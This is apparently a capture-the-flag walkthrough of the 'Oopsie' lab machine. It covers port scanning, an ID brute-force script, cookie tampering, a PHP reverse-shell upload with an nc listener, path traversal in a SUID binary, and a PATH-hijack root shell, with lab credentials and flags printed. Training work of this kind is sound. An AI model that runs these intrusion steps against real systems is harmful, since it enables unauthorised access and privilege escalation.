










# Starting Point - Oopsie

## Enumeration
```
rustscan 10.10.10.28 -- -sC -sV

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                                     
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                               
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
```

### Examine Port 80 - Apache server


It seems to be a website for the electric vehicle manufacturer MegaCorp (which we also had in the previous Task "Archetype").


Scrolling down the website, we find a hint for a login page. As the website UI does not provide any login functionality, we have probably have to find it first. Therefore, we open Burpsuite and check the sitemap of the website. Alternatively we could also use a tool like `gobuster`or `dirbuster` for this as well.



The sitemap reveals that there is a directory called `/cdn-cgi/login/` and the related `/cdn-cgi/login/index.php`.


Opening this file via the webbrowser, we can confirm that this is a login page. 

The next step is to bruteforce the username/password and hope that it is weak. However, using `Hydra` or `Burpsuite Intruder` led to nothing, as the username/password combiniation is unfortunately not included in a common wordlist like `rockyou.txt`. I was pretty much stuck at this point and after a while, I looked it up in a writeup. The password is `MEGACORP_4dm1n!!` (from the previous challenge ... never would have thought of that) and a weak username. 


Once logged in, we have full access (as we are admin) to the Repair Management System website. 



We have access to the account information of the admin (Access ID: 34322, Name: admin, Email: admin@megacorp.com)



We have information about the Branding.



As well as information about clients.


But when we try to access the `Uploads`, it says we require super admin rights. Hmmm ....

After investigating all the source code and the network communication, I realized that when logging in as admin, two cookies are being set.



1) `user=34322; expires=Sat, 30-Jan-2021 14:17:15 GMT; Max-Age=2592000; path=/`
2) `role=admin; expires=Sat, 30-Jan-2021 14:17:15 GMT; Max-Age=2592000; path=/`

So apparently, the user- and role-management is done via plaintext cookies. Great idea! (sarcasm off). Perfect chance for us to gain super admin privileges. I quickly realized that the `user=34322` part seemed to be familiar. We have seen that number before on the admin's account info page. It's the Access ID of the admin. 


Going back to the account info page, I realized that there is an `id` parameter in the URL. 1 seems to be the Admin. Can we get information about the super admin user, if we can guess its id? Let's try that.

We have several options for that:

1) Burpsuite Sniper 
2) Hydra
3) Writing a script (requesting the URLs and check the content)



With Burpsuite it's fairly easy to do. Simply intercept the response to the Account info page, send it to the Intruder, select `Sniper` and add the `id` value to the fields that should be bruteforced. After that, simply set the payload to a list of integers (e.g 0-1000).

However, I decided to practice my Python skills and write my own script for that.

```python
import requests
url = "http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="

print("[+] Starting the process")

payload = {
    'username' : 'admin',
    'password' : 'MEGACORP_4dm1n!!'
}

with requests.Session() as s:
    p = s.post('http://10.10.10.28/cdn-cgi/login/index.php', data=payload)
    for x in range(1000):
        print(f"[+] Testing id: {x}")
        test_url = url + str(x)
        res = s.get(test_url)
        if 'super' in res.text:
            print(f"[+] SUPER ADMIN ID FOUND: {x}")
            break

print("[+] Stopping the process")
```

Running the code, will tell us that Super Admin ID is 30, as the response contains the word `super` (This obviously only works, as I've assumed that super is somewhere contained in the response. If that were not the case, then the script wouldn't work and I would have to go through each request manually or check for other words/find a regex to match the account id). 



Looking at the page with the `id` parameter set to 30, we can see the account info of the super admin user. The access ID is `86575`. We change our cookie accordingly and now try to access the `Uploads` page. It works!



Trying to upload a php shell called `shell.php` succeeds.



During our sitemap-enumaration with Burpsuite, we found a directory called `/uploads`. It probably contains the uploaded file. 



Starting a listener on port 4444 with `nc -lvnp 4444`and then accessing the file on `10.10.10.28/uploads/shell.php`, gives us a reverse shell to the machine.

First step is always to stablize the shell, so that we can't accidently close the connection if we press something like CTRL+C.

To fully stablize the shell and enable features like autocomplete we can do following:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + Z (to put the nc process into the background)

stty raw -echo; fg
```

Now you should have a fully stablized shell.

## On-Machine Enumeration

### Other home directories

```
www-data@oopsie:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Jan 23  2020 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
drwxr-xr-x  5 robert robert 4096 Feb 25  2020 robert
```
Inspecting the home directories, we can see another user called `robert`. His home directory contains the `user.txt` flag. 

| f2c74ee8db7983851ab2a96a44eb7981 |

### Files with SUID

```
www-data@oopsie:/$ find / -perm -u=s -type f 2>/dev/null | grep -v "snap"
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker  <-- seems suspicious
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

`-perm -u=s`: Permission, where SUID Bit is set

`-type f` : Only show files

`2>/dev/null`: Dump any error message in /dev/null

`grep -v snap`: remove all findings that contain snap (avoids a lot of spamming)

```
www-data@oopsie:/$ ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
However, we have no access to the file. So this is a dead end.

### Check www-data files of the website

We should probably check out the other files of the website. Maybe we have missed something. And indeed! There is a `db.php` file containing credentials for the user `robert` which we've already found.

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

So let's try to gain access to the user `robert` with the password `M3g4C0rpUs3r!`. And it works!

```
robert@oopsie:/var/www/html/cdn-cgi/login$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Robert is also member of the `bugtracker` group, so we can now further investigate the `bugtracker` binary.

Running the binary with input `1` outputs following:
```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

Let's try some weird input like a negative number:

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: -1
---------------

cat: /root/reports/-1: No such file or directory
```

So it's bascially just appending our input to a directory string... we can modify it in such a way, that it will print the root.txt for us. 

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```
There we go. We pwned the machine.

## Post Exploitation

For the next challenge we need FTP credentials, which are stored in this file:

```
root@oopsie:/root/.config/filezilla# more filezilla.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

Either "guess" this common filename or extend the privilege escalation by doing following:

As we know that the bugtracker binary calls `cat filename`, we can simply modify the cat binary for our user.

```
export PATH=/tmp/:$PATH

cd /tmp && echo '/bin/bash' > cat && chmod +x cat
```

Now when executing the `bugtracker` binary, we get a root-shell.

